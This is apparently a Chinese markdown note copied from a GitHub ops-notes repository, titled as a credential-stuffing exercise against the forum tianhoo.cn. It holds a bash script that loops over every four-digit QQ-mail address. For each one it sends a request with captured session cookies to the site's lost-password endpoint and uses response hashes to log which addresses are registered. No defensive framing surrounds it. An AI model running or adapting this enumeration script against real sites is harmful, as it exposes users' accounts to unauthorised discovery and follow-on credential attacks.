


# tianhoo.cn 撞库出邮箱

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202206031628-%E8%BF%9B%E9%98%B6%E6%8A%80%E6%9C%AF%2BShell-tianhoo.cn%20%E6%92%9E%E5%BA%93%E5%87%BA%E9%82%AE%E7%AE%B1.md)

> 原文：[tianhoo.cn 撞库出邮箱](https://xn--6o0a585a.gitbook.io/devops/jin-jie-ji-shu/tianhoo.cn-zhuang-ku-chu-you-xiang.html)

> 来源：GitBook 网页 HTML｜页面时间：2022-06-03 16:28｜日期依据：GitBook 页面更新时间





<https://t.me/HackerNiao/36005>

```bash
#!/bin/bash
for i in {0..9}{0..9}{0..9}{0..9};do
	md5=`curl -s 'http://bbs.tianhoo.cn/member.php?mod=lostpasswd&lostpwsubmit=yes&infloat=yes&inajax=1'   -H 'Cookie: KkFs_7cc3_saltkey=WUfcw9EM; KkFs_7cc3_lastvisit=1644829898; KkFs_7cc3_sid=T7QZK6; PHPSESSID=8eh6lr75ub3i9mb2sbb42kf9h5; KkFs_7cc3_st_t=0%7C1644833498%7Ced24a99730cc354dc4cda6294b347b2c; KkFs_7cc3_atarget=1; KkFs_7cc3_forum_lastvisit=D_71_1644833498; KkFs_7cc3_visitedfid=71; KkFs_7cc3_sendmail=1; pos=null; sid=null; Hm_lvt_2d699fc2c07b39ad3ea1910b53fc32d1=1644833501; Hm_lpvt_2d699fc2c07b39ad3ea1910b53fc32d1=1644833501; BAIDU_SSP_lcr=https://www.baidu.com/link?url=gzhwHE-r_IiSUCTwLB7Gw9f-zAjOf56w4sYy3aZg8JH8mFszzJrGgQsF0D4fI4jL&wd=&eqid=f2b7518700058e5200000006620a2ad2; KkFs_7cc3_lastact=1644833531%09forum.php%09ajax'   --data-raw "formhash=edca8ec3&handlekey=lostpwform&email=$i%40qqcom" | md5sum | awk '{print $1}'`
	if [ "$md5" != "575155306e355801737b603bc9e46242" ];then echo "`date "+%Y-%m-%d %H:%M:%S"` $[邮箱已脱敏]" >> ok撞库成功.txt;else echo "`date "+%Y-%m-%d %H:%M:%S"` $[邮箱已脱敏]" >> not撞库失败.txt; fi
done
```
